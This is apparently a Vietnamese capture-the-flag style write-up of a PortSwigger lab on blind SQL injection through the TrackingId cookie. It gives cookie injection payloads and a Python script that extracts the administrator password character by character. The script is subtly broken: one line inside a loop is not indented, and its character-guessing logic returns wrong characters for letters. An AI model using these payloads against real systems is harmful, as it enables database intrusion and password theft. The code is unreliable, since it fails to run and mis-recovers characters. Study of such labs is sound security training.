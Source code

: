 ## Lab 11: Blind SQL injection with conditional responses
Description: Challenge blind SQLi đầu tiên, kết quả của các câu query sẽ không được display, thậm chí là lỗi cũng không được display. Nhưng app sẽ bao gồm 1 "Welcome back" message khi query trả về bất kỳ row nào. 
Có 1 bảng users chứa 2 cột username với password. Tìm cách lấy được password của admin và đăng nhập. Và lỗ hổng này xuất hiện ở cookie TrackingId

Ta sẽ check các dấu `'` hay `"`, rồi dấu comment `--` hay `#` dấu nào hợp lệ.
Ta được: `cookie: TrackingId=jE8Gp9AO7VaIUkVR'+OR+1=1--;session=cVmOaF2JVU0PLsjtGxuODJmhPeQrofxd`

Vì đây là blind SQLi nên ta không thể sử dụng UNION attack mà ta sẽ dùng substring để tìm từng chữ cái của 1 giá trị nào đó, có thể là table name, column name nhưng ở đây đề bài đã cung cấp tên bảng `users` có 2 cột `username` và `password`

Check length của password với payload
`cookie: TrackingId=jE8Gp9AO7VaIUkVR'+(SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+LENGTH(password)>1)='a;session=cVmOaF2JVU0PLsjtGxuODJmhPeQrofxd`
Ta sẽ được length của password là 20.
Nếu password ở đây chứa các kí tự viết hoa, viết thường, kí tự đặc biệt, số thì mình sẽ thay đổi giá trị `string.ascii_lowercase + string.digits` nhưng mà hint là chỉ có lowercase và digit cho nên viết vậy để chạy nhanh hơn. Còn nếu không phải check `=` từng chữ cái chứ không sử dụng dấu `>`. 

```python=
import requests
import string
url = 'https://0a7600b00470eef9853ec7ff00f90073.web-security-academy.net/'
session = 'cVmOaF2JVU0PLsjtGxuODJmhPeQrofxd'
trackId = 'jE8Gp9AO7VaIUkVR'
password = ""
for i in range(1,21):
    check = False
    for j in [x for x in string.ascii_lowercase + string.digits][::-1]:
    trackingValue = f"{trackId}'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),{i},1)>'{j}"
        cookie_values = {'TrackingId': trackingValue, 'session': session}
        response = requests.get(url, cookies=cookie_values)
        if 'Welcome back' in response.text:
            check = True
            password += chr(ord(j) + 1)
            break
    if not check:
        trackingValue = f"{trackId}'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),{i},1)>'z"
        cookie_values = {'TrackingId': trackingValue, 'session': session}
        response = requests.get(url, cookies=cookie_values)
        if 'Welcome back' in response.text:
            password += 'z'
        else:
            password += '9'

print(password)
```
